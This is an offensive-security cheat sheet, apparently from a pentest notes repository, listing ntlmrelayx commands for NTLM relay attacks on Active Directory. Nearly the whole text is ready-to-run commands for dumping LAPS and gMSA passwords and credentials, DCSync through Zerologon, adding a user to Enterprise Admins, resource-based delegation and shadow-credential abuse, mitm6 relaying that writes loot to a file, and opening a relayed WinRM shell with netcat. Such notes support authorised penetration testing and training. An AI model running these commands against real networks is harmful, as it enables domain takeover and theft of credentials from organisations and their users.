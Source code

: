 # Ntlmrelayx

If only SMBv2 is supported, -smb2support can be used. To attempt the remove the MIC if NTLMv2 is vulnerable to CVE-2019-1040, --remove-mic can be used.

Multiple targets can be specified with -tf list.txt.

### 1) Enumeration

##### With attempt to dump possible GMSA and LAPS passwords, and ADCS templates

    ntlmrelayx.py ldap://dc --dump-adcs --dump-laps --dump-gmsa --no-da --no-acl

### 2) SOCKS Proxy

    ntlmrelayx.py -t smb://target -socks
    ntlmrelayx.py -t mssql://target -socks
    ntlmrelayx.py -t ldaps://target -socks

### 3) Creds dump

    ntlmrelayx.py smb://target

### 4) DCSync if the target in vulnerable to Zerologon

    ntlmrelayx.py dcsync://dc

## Privilege Escalation

### 1) Add an user to Enterprise Admins.

    ntlmrelayx.py ldap://dc --escalate-user user1 --no-dump

### 2) Kerberos Delegation (RBCD in our case)

##### Create a new computer account through LDAPS and enabled RBCD

    ntlmrelayx.py ldaps://dc_IP --add-computer --delegate-access --no-dump --no-da --no-acl

##### Create a new computer account through LDAP with StartTLS and enabled RBCD

    ntlmrelayx.py ldap://dc_IP --add-computer --delegate-access --no-dump --no-da --no-acl

##### Doesn't create a new computer account and use an existing one

    ntlmrelayx.py ldap://dc_IP --escalate-user <controlled_computer> --delegate-access --no-dump --no-da --no-acl

### 3) Shadow Credentials

    ntlmrelayx.py -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'

### 4) From a mitm6 authentication

##### Attempts to open a socks and write loot likes dumps into a file

    ntlmrelayx.py -tf targets.txt -wh attacker.domain.local -6 -l loot.txt -socks

### 5) Relay to WinRMs

If NTLMv1 is enabled on the source server and accepted by the target, and the target server exposes the WinRMs service (over HTTPS), without forcing CBT.

##### Perform the relay

    ntlmrelayx -t winrms://target.domain.local -smb2support

##### Use the opened WinRMs shell

    nc 127.0.0.1 11000
